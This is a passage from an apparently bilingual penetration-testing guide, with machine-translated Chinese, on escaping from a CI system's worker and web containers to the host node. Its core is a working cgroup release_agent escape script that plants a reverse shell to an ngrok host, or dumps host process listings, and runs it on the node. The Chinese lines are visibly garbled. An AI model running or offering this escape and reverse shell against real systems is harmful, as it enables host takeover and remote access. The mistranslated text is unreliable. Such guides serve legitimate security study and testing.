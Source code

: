 ```bash
```

{% hint style="warning" %}

{％提示样式=“警告”％}
As you might have noticed this is just a [**regular release\_agent escape**](../../linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/#privileged) just modifying the path of the cmd in the node

您可能已经注意到，这只是[**常规版本\ _agent Escape **]（../../ linux-hardening/privilege-eScalation/docker-breakout/docker-break-break-breakout-privilege-privilege-privilege-scalation/＃privilegenged） 只是修改节点中的CMD路径
{% endhint %}

### Escaping to the node from a Worker container

###从工人容器中逃到节点

A regular release\_agent escape with a minor modification is enough for this:

常规版本\ _agent Escape进行次要修改就足够了：

```bash
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab | head -n 1`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#====================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/0.tcp.ngrok.io/14966 0>&1" >> /cmd
chmod a+x /cmd
#====================================
# Get output
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#====================================

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# Reads the output
cat /output
```

### Escaping to the node from the Web container

###从Web容器逃到节点

Even if the web container has some defenses disabled it's **not running as a common privileged container** (for example, you **cannot** **mount** and the **capabilities** are very **limited**, so all the easy ways to escape from the container are useless).
